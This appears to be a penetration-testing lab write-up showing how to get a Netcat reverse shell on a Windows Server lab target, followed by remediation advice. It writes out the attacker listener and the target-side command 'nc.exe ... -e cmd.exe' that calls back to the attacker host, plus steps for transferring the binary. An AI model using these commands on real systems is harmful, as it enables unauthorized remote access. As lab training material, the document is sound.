







# Reverse Shells

**Classification:** Host & Network Penetration Testing / Exploitation<br>
**Target:** demo.ine.local (10.2.20.210) — WIN-OMCNBKR66MN, Windows Server 2012 R2<br>
**Attacker:** 10.10.41.6 (Kali)<br>
**Objective:** Set up a reverse shell with Netcat.

## 1. Executive Summary

A **reverse shell** has the target connect back to the attacker (useful when inbound
connections are blocked). We host `nc.exe` on a Python HTTP server, transfer it to the
Windows target, start a Netcat listener on the attacker, and run `nc.exe -e cmd.exe` on the
target to get an interactive shell back as the Administrator.

## 2. Recon

```bash
ping -c 4 demo.ine.local      # 10.2.20.210
```



## 3. Transferring nc.exe

Serving the Windows binaries over HTTP.

```bash
cd /usr/share/windows-binaries
python -m SimpleHTTPServer 80
```



Downloading `nc.exe` from the target's browser.



Confirming it landed on the target's Desktop.

```cmd
dir      # nc.exe present
```



## 4. Listener + Reverse Connection

On the attacker, start the Netcat listener.

```bash
nc -nvlp 1234
```



On the target, connect back and pipe `cmd.exe`.

```cmd
nc.exe -nv 10.10.41.6 1234 -e cmd.exe
```



## 5. Shell Received

The listener receives an interactive shell as `win-omcnbkr66mn\administrator`.

```cmd
whoami      # win-omcnbkr66mn\administrator
dir
```



## 6. Remediation Recommendations

1. **Egress filtering** — restrict outbound connections so a target can't call back to
   arbitrary hosts/ports.
2. **Application allow-listing** (WDAC/AppLocker) to block unauthorized binaries like
   `nc.exe`.
3. **EDR/AV** to detect `netcat`-style tooling and `cmd.exe` spawned by network tools.
4. **Least privilege** so a reverse shell doesn't immediately land as Administrator.
